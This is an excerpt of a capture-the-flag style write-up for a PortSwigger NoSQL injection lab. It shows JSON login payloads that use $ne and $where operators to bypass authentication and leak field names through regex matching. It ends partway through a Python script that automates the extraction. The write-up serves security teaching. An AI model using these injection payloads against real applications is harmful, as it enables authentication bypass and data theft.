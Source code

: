 ```json
{
    "username": "carlos",
    "password":{
        "$ne": "foobar"
    },
    "$where": "1"
}
```

When we use `"$where": "0"`, it'll be evaluated as `False`, and  `"$where": "1"` will be evaluated as `True`.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-4/images/Pasted%20image%2020231010135023.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-4/images/Pasted%20image%2020231010135034.png)

In here, we can see that the `0` is evaluated as `False`, which means the login was failed. In `1`, it got "Account locked", which means the login was successfully.

That being said, **the JavaScript expression in the `$where` clause is being evaluated.**

**After that, we can extract field names via `"$where": "Object.keys(this)[0].match('^.{0}a.*')"`:**
```json
{
    "username": "carlos",
    "password":{
        "$ne": "foobar"
    },
    "$where": "Object.keys(this)[0].match('^.{0}a.*')"
}
```

> Note: The JavaScript `match()` function's regex can be `<found_character>.*`.

**But before we do that, let's generate a password reset token for user `carlos`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-4/images/Pasted%20image%2020231010135904.png)

**Next, to automate this process, I'll write a Python script:**
```python
import requests
from string import ascii_letters

class Exploit:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl

    def extractFieldNames(self, fieldPosition):
        LOGIN_ENDPOINT = '/login'
        LAST_CHARACTER = ascii_letters[-1]
        username = 'carlos'
        password = {
            '$ne': 'foobar'
        }
        fieldName = str()
        while True:
            for character in ascii_letters:
                payload = f'^{fieldName}{character}.*' if fieldName else f'^{character}.*'
                whereOperatorKey = f'Object.keys(this)[{fieldPosition}].match("{payload}")'
                print(f'[*] Sending payload: {whereOperatorKey}', end='\r')

                loginData = {
                    'username': username,
                    'password': password,
                    '$where': whereOperatorKey
```